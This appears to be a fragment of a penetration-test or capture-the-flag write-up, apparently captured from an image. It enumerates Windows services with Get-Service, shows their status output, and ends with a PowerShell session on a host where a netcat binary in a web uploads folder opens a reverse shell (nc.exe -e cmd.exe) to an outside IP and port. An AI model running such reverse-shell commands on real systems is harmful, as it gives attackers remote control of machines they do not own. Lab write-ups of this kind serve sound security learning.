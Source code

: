 ```aaa
Get-Service -Name "AFD"
Get-Service -Name "afunix"
Get-Service -Name "ahcache"
Get-Service -Name "AJRouter"
Get-Service -Name "ALG"
Get-Service -Name "AmdK8"
Get-Service -Name "AmdPPM"
[....]
```

Download, execute, redirect output to a file and the result will be something like the following:

```aaa
Status   Name               DisplayName                           
------   ----               -----------                           
Stopped  applockerfltr      Smartlocker Filter Driver             
Stopped  AppMgmt            Application Management                
Stopped  AppVClient         Microsoft App-V Client                
Running  BFE                Base Filtering Engine                 
Running  BrokerInfrastru... Background Tasks Infrastructure Ser...
Running  CLFS               Common Log (CLFS)                     
Running  ClipSVC            Client License Service (ClipSVC)      
Stopped  ConsentUxUserSvc   ConsentUX                             
Running  DcomLaunch         DCOM Server Process Launcher          
Stopped  DevicePickerUse... DevicePicker                          
Stopped  DevicesFlowUserSvc DevicesFlow                           
Running  Dhcp               DHCP Client                           
Stopped  dmwappushservice   Device Management Wireless Applicat...
Running  Dnscache           DNS Client                            
Stopped  DoSvc              Delivery Optimization                 
Running  DsSvc              Data Sharing Service                  
Stopped  EFS                Encrypting File System (EFS)          
Running  EventLog           Windows Event Log                     
Stopped  icssvc             Windows Mobile Hotspot Service        
Stopped  KtmRm              KtmRm for Distributed Transaction C...
Running  LSM                Local Session Manager                 
Stopped  MapsBroker         Downloaded Maps Manager               
Running  mpsdrv             Windows Defender Firewall Authoriza...
Running  mpssvc             Windows Defender Firewall             
Running  MSDTC              Distributed Transaction Coordinator   
Running  NetBT              NetBT                                 
Stopped  NetSetupSvc        Network Setup Service                 
Stopped  NetTcpPortSharing  Net.Tcp Port Sharing Service          
Stopped  NgcCtnrSvc         Microsoft Passport Container          
Stopped  NgcSvc             Microsoft Passport                    
Stopped  PhoneSvc           Phone Service                         
Stopped  PimIndexMainten... Contact Data                          
Stopped  pla                Performance Logs & Alerts             
Stopped  PrintWorkflowUs... PrintWorkflow                         
Stopped  RasAcd             Remote Access Auto Connection Driver  
Stopped  RasAuto            Remote Access Auto Connection Manager 
Running  RasMan             Remote Access Connection Manager      
Stopped  RemoteAccess       Routing and Remote Access             
Stopped  RmSvc              Radio Management Service              
Running  RpcEptMapper       RPC Endpoint Mapper                   
Running  RpcSs              Remote Procedure Call (RPC)           
Stopped  RSoPProv           Resultant Set of Policy Provider      
Running  SamSs              Security Accounts Manager             
Running  Schedule           Task Scheduler                        
Stopped  seclogon           Secondary Logon                       
Stopped  SecurityHealthS... Windows Security Service              
Stopped  SEMgrSvc           Payments and NFC/SE Manager           
Running  SENS               System Event Notification Service     
Stopped  SensorService      Sensor Service                        
```

[localhost]: PS C:\Users\Hector\Documents> whoami
[localhost]: PS C:\Users\Hector\Documents>
[localhost]: PS C:\Users\Hector\Documents> Invoke-Command -ScriptBlock { C:\inetpub\wwwroot\uploads\nc.exe -e cmd.exe 10.10.15.203 9898 }